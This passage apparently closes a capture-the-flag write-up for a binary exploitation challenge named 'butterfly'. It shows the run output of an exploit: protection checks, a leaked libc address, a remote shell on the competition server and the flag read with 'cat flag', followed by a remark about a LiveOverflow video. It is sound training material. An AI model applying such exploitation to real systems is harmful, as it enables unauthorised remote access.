 Let's run it!
```
[*] '/ctf/Pwn/butterfly/try/butterfly'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/Pwn/butterfly/try/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.darkarmy.xyz on port 32770: Done
libc at: 0x7f42db53d000
[*] Switching to interactive mode
$ ls
butterfly
flag
run.sh
ynetd
$ cat flag
darkCTF{https://www.youtube.com/watch?v=L2C8rVO2lAg}
```

Wait is that a [LiveOverflow video](https://www.youtube.com/watch?v=L2C8rVO2lAg)?
